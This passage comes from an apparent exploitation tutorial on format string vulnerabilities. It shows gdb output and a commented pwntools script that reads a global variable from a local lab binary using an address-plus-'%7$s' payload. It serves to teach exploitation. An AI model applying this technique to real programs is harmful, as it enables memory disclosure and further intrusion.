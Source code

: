 We can appreciate that the current instruction is a comparison that tries to
access to the memory address pointed by eax. Let's check the eax value:
```
(gdb) info registers eax
eax            0x41414141          1094795585
```

Here it is, our provided (non) address caused the fault as we imagine. Now we
are sure we can point to the address we want. But what is the address we want to
point? To the address of the global variable. In this ocassion, for the sake of
simplicity, the program tells us which is such address, but in a real worl
scenario this address will be random in each program execution due to [ASLR](https://security.stackexchange.com/questions/18556/how-do-aslr-and-dep-work)
and we will need to leak a pointer address from the program to calculate the
address in each execution of our target.

So first, we need read the address of the global variable and then introduce such
address at the beginning of our format string. It can be messy to do this in the
command line, so we are going to create a python script that uses the
[pwntools](https://github.com/Gallopsled/pwntools) suite, which is very useful in exploiting.

Here is the script with comments, take your time to read and understand it,
since it is important for understanding the technique but also because pwntools
and python are commonly used so it is important to know how to use them:
```python
from pwn import *

# set the platform of the process we are going to launch
# so functions are adapted to this specific platform
context(arch = 'i386', os = 'linux')

# spawn the process
io = process("./fsv-global-read")

# receive the input
line = io.recvline()
print("Program printed:", line)

# take the hexadecimal value and convert it to a number
addr = int(line[-11:-1], 0)

# convert the addr number into byte characters that represent the value
# make sure context is properly set for this to work correctly
b_addr = pack(addr)
print("Address is {} -> {}".format(hex(addr), b_addr))

# create format string that includes: addr + conversion
format_str = b_addr + b"%7$s"
print("Our format string:", format_str)

# send format string with a newline to help send it properly
# (it returns errors sometimes if newline is not added)
io.sendline(format_str + b"\n")

# Receive the output and redirect to shell
io.stream()
```
